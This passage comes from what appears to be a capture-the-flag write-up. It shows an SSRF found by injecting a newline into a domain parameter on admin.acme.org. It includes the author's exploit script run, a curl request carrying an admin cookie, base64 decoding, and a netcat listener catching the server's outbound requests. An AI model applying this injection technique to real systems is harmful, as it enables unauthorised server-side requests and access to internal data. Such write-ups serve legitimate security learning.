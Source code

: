 Apparently the 54th ID sent a request to our server on port 83 and returned the response. This is getting interesting. Let's summarize what exactly happened

- We injected a newline into the domain, and the ID which gets returned suddenly skips one number.
- Sending a request to the ID of the skipped number sends a request to our server, which was the domain before newline
- The ID which is returned gives out no response, and since we had `lol.com` after the newline, maybe the returned ID sent a request to `lol.com` which returned nothing.

Let's try it again, but now with valid domains

So I set up another subdomain(`another.channelcs.com`) with the same CNAME trick to point to my server. Now let's see what happens

```sh
--local--

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212ror.channelcs.com/ \nanother.channelcs.com'
Reading id -> 59
HEHE

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ curl 'admin.acme.org/read.php?id=58' -b 'admin=yes'
{"data":"SEVIRQo="}

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ echo "SEVIRQo="|base64 -d
HEHE

--local--

--remote--

root@op:~$ while true; do echo "HEHE"|nc -nlvp 80; done
Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.236.20.43] port 80 [tcp/*] accepted (family 2, sport 58294)
GET / HTTP/1.0
Host: another.channelcs.com

Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.236.20.43] port 80 [tcp/*] accepted (family 2, sport 58590)
GET /  HTTP/1.0
Host: 212ror.channelcs.com

--remote--
```

Our suspicion is confirmed, it skips one ID when a newline is injected, and it only returns the ID of the domain after newline.

But then we used curl curl to send a request to the ID which was skipped, and then a request appears on our server with the `host` as the domain before newline.

So basically at backend, the value of `domain` is split with newline as a token, and then each of the domains is assigned an ID, and only the last one is returned in the response.
